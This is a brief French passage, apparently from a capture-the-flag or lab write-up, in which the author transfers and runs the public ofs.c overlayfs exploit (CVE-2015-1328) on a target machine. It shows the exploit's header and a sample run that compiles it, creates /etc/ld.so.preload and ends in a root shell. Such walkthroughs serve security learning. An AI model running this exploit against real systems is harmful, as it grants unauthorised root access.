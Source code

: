 <figure><img src=".gitbook/assets/ofs01.png" alt=""><figcaption><p>overlay.fs code source</p></figcaption></figure>

Téléchargeons, transférons le fichier ofs.c vers la machine cible et exécutons l'exploit en suivant le mode d'emploi donné dans le code source

```
/*
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
CVE-2015-1328 / ofs.c
overlayfs incorrect permission handling + FS_USERNS_MOUNT

user@ubuntu-server-1504:~$ uname -a
Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
user@ubuntu-server-1504:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
user@ubuntu-server-1504:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(user)
```
